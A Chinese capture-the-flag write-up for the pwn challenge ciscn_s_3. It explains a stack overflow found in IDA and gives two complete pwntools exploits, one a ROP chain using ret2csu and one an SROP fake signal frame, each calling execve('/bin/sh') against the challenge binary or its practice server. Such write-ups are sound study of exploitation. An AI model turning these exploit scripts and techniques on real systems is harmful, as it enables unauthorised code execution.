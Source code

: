 ```yaml
---
title: ciscn_s_3
description: ciscn_s_3-writeup
date: 2021-07-11 15:07:56
categories:
 - PWN
tags:
---
```




# ciscn_s_3

## IDA伪代码分析

首先检查一下文件

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625988173359-54fa768e-6a1e-486f-81f2-18fee26cff5f.png)

拖入IDA，首先发现vuln函数

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625988362033-c49f4532-fac6-4a1e-a22f-fe2e8f944106.png)

直接看汇编

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625988390470-2448b982-f604-4990-9ffd-f9790537a8da.png)

前面rax为0，那么调用read的系统调用，向rsp+buf开始写入0x400大小的字符，buf只有0x10的大小，那么肯定有溢出，还要注意前面mov rbp,rsp之后就没有sub esp了；后面mov rax 1将rax设为1，那么调用write系统调用，从rsp+buf开始打印0x30大小的数据。

**32位对应的系统调用号**

| read      | 3    |
| --------- | ---- |
| write     | 4    |
| execve    | 11   |
| sigreturn | 77   |

**64位对应的系统调用号**

| read      | 0    |
| --------- | ---- |
| write     | 1    |
| execve    | 59   |
| sigreturn | 15   |

我们发现还有个gadgets函数

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625989059756-913bff45-fd92-4df0-9590-f96664d1d44b.png)

一个是mov rax, 0Fh，按上面的表格，就是将rax系统调用号设置为15，也就是sigreturn，那么就可以用srop去做这题，还有一个是mov rax, 3Bh，将rax设置为59，也就是execve，也可以用普通的rop去做。

## 第一种做法

程序一开始是先执行read(0,buf,0x400)，然后执行write(1,buf,0x30)，buf的位置距离rbp只有0x10，所以存在栈溢出，而且前面没有进行sub rsp抬高栈，所以rsp和rbp是相等的，retn相当于pop rip，所以这里覆盖rbp的时候，其实就需要将rbp覆盖成你想要的返回地址。所以这道题的偏移其实就是0x10就可以了。

### 思路

第一种做法就是**通过系统调用59对应的execve，然后想办法执行execve(“/bin/sh”,0,0)**

上面说到了可以进行栈溢出，执行execve就需要给寄存器赋值，那大概的布局就是这样的：

$rax==59

$rdi==“/bin/sh”

$rsi==0

$rdx==0

syscall

上面我们看到gadgets函数中有mov rax，3Bh，那么第一个条件可以达成，对于第二条件，通过查找程序也没发现有/bin/sh的字符，那么就要通过栈溢出将/bin/sh写入栈中，然后通过泄露栈的地址，加上偏移去得到/bin/sh的地址，然后通过ROPgadget查找pop rdi ret的gadget将/bin/sh的地址写入rdi，第三第四个条件可以利用csu去赋值。

那么，首先是泄露栈的地址

```python
payload1 = '/bin/sh\x00' * 2 + p64(main)
p.send(payload1)
p.recv(0x20)
binsh = u64(p.recv(8))  - 0x118
log.success(hex(binsh))
```

write是会打印出0x30大小的数据，这里在打印到0x20的时候，接下来是打印出来一个地址，这个地址一看就是栈上面的，所以只要算出这个地址和binsh地址的相对偏移，就可以在程序每次执行的时候算出binsh的地址了

这里是c88-b70==0x118

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625994021812-2735cb38-5591-4953-afbc-a84b39bc7ef6.png)

那么下一步就是利用csu给rsi，rbx赋值了，发现csu只能给edi赋值，但我们要给rdi赋值，所以我们还要找pop rdi的gadget



![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625994407537-617fd298-9e40-47e0-8bfe-265d6c78cde8.png)

```python
payload2 = '/bin/sh\x00' * 2 + p64(csu_end)
payload2 += p64(0) * 2 + p64(binsh+0x50) + p64(0) * 3 + p64(csu_first) + p64(rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh) + p64(sys_call)
p.sendline(payload2)
```

这里的r12赋的值就是binsh的地址+0x50，也就是下一个rop的地址，也就是rax_59_ret的地址，给rax赋值为59，这里注意的是[r12]，是取地址操作，所以r12是栈上的地址，这个地址里保存着rax_59_ret的地址，这里是我踩的一个坑，那么之后的exp就没什么好分析的了，放一下最后的exp

### exp

```python
from pwn import *

# context.log_level = 'debug'

p = process('ciscn_s_3')
# p = remote('node4.buuoj.cn','29053')
elf = ELF('ciscn_s_3')

main = 0x0004004ED
sys_call = 0x400517
csu_end = 0x40059A
csu_first = 0x400580
rax_59_ret = 0x4004E2
pop_rdi_ret = 0x4005a3

payload1 = '/bin/sh\x00' * 2 + p64(main)
p.send(payload1)
p.recv(0x20)
binsh = u64(p.recv(8))  - 0x118
log.success(hex(binsh))

payload2 = '/bin/sh\x00' * 2 + p64(csu_end)
payload2 += p64(0) * 2 + p64(binsh+0x50) + p64(0) * 3 + p64(csu_first) + p64(rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh) + p64(sys_call)
p.sendline(payload2)

p.interactive()
```

## 第二种做法

用srop去做，首先介绍一下srop

### SROP

SROP（Sigreturn Oriented Programming），sigreturn是一个系统调用，在 unix 系统发生 signal 的时候会被间接调用



当系统进程发起（deliver）一个 signal 的时候，该进程会被短暂的挂起（suspend），进入内核①，然后内核对该进程保留相应的上下文，跳转到之前注册好的 signal handler 中处理 signal②，当 signal 返回后③，内核为进程恢复之前保留的上下文，恢复进程的执行④

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1583802593340-5e11543d-ba40-4484-90a1-7eff91e5f953.png)

内核为进程保留相应的上下文的方法主要是：**将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**，此时栈的情况是这样的：

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1583803907159-784f8139-65cf-4c41-8ce5-db66393f5cc1.png)

我们**称 ucontext 以及 siginfo 这一段为 signal frame**，需要注意的是这一部分是在用户进程的地址空间，之后会跳转到注册过 signal handler 中处理相应的 signal，因此，当 signal handler 执行完成后就会**执行 sigreturn 系统调用来恢复上下文，主要是将之前压入的寄存器的内容给还原回对应的寄存器**，然后恢复进程的执行。

### 思路

我们发现gadgets函数中有个mov rax，0Fh，这是Sigreturn系统调用号，Sigreturn 从栈上读取数据，赋值到寄存器中，可以用来构造 syscall(59,"/bin/sh",0,0)。那么我们可以通过构造一个fake signal frame，让程序调用了Sigreturn之后，恢复我们构造好的frame，给寄存器都赋值。这里需要用到SigreturnFrame()，我们用Python2去写EXP

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# p = process('ciscn_s_3')
p = remote('node4.buuoj.cn','27856')
elf = ELF('ciscn_s_3')

main = 0x0004004ED
sys_call = 0x400517
csu_end = 0x40059A
csu_first = 0x400580
rax_15_ret = 0x4004DA
pop_rdi_ret = 0x4005a3

payload1 = '/bin/sh\x00' * 2 + p64(main)
p.send(payload1)
p.recv(0x20)
binsh = u64(p.recv(8))  - 0x118
log.success(hex(binsh))

fakeframe = SigreturnFrame()
fakeframe.rax = constants.SYS_execve
fakeframe.rdi = binsh
fakeframe.rsi = 0
fakeframe.rdx = 0
fakeframe.rip = sys_call

payload2 = '/bin/sh\x00' * 2 + p64(rax_15_ret) + p64(sys_call) + str(fakeframe)
p.send(payload2)
p.interactive()
```

这里记得fakeframe的rip设置sys_call，不然恢复了上下文后也不会调用execve